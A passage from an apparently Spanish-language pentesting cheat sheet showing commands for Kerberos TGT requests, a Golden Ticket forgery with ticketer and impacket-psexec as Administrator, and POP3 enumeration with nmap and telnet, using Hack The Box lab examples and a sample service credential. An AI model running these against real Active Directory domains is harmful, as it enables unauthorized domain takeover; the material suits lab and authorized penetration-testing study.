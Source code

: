 <br>

<h3 id="Kerberos5">Creando TGT para Autenticarnos en AD y Aplicando Golden Ticket Attack</h3>

```bash
# Creando TGT para autenticarnos vía kerberos (usamos evil-winrm solo en caso de que la máquina tenga activo este servicio)
impacket-getTGT <dominio>/<usuario>:<contraseña>
export KRB5CCNAME=nombreUsuario.ccache
evil-winrm -i <IP> -r <dominio>

Ej:
impacket-getTGT active.htb/SVC_TGS:GPPstillStandingStrong2k18
export KRB5CCNAME=SVC_TGS.ccache
evil-winrm -i 192.168.1.15 -r active.htb


# Aplicando Golden ticket attack
ticketer -nthash <hashNT> -domain-sid <SID> -domain <dominio.local> <nombre_usuario_a_usar>
export KRB5CCNAME=<nombre_usuario>.ccache
impacket-psexec <dominio.local>/<usuario>@<nombre_servidor o IP> -k -no-pass
impacket-psexec <dominio.local>/Administrator@<nombre_servidor o IP> -target-ip <IP> -dc-ip $<DC_IP> -no-pass -k

Ej:
ticketer -nthash b999a16500b87d17ec7f2e2a68778f05 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -domain dominio.htb berserk
export KRB5CCNAME=berserk.ccache
impacket-psexec dominio.local/berserk@server.local.htb -k -no-pass
impacket-psexec dominio.local/Administrator@server.local.htb -target-ip 192.168.1.15 -dc-ip 192.168.1.15 -no-pass -k
```

Aquí puedes encontrar más información:
* <a href="https://www.fortinet.com/lat/resources/cyberglossary/kerberos-authentication" target="_blank">Autenticación Kerberos</a>
* <a href="https://book.hacktricks.xyz/network-services-pentesting/pentesting-kerberos-88" target="_blank">HackTricks: Pentesting Kerberos</a>

<br>

<h2 id="POP3">Puerto 110 - Servicio POP3</h2>

¿Qué es el **servicio POP3**?

| **Servicio POP3** |
|:-----------:|
| *POP3 es un protocolo antiguo que originalmente se diseñó para usarse en un solo equipo. A diferencia de los protocolos modernos que usan la sincronización bidireccional, POP3 solo admite la sincronización de correo unidireccional, lo que solo permite a los usuarios descargar correos electrónicos desde un servidor a un cliente. * |

<br>

A continuación, dejo una forma de auditar este servicio:

```bash
# Generando una lista de las capacidades soportadas por el servidor POP3
nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -p 110 <IP>
Ej: nmap --script pop3-capabilities -sV -p 110 192.168.1.15


# Obteniendo información del servidor (solo si es aplicable)
nmap --script pop3-ntlm-info -sV -p 110 <IP>
Ej: nmap --script pop3-ntlm-info -sV -p 110 192.168.1.15


# Entrando al servidor POP3 via telnet
telnet <IP> 110
Ej: telnet 192.168.1.15 110
```
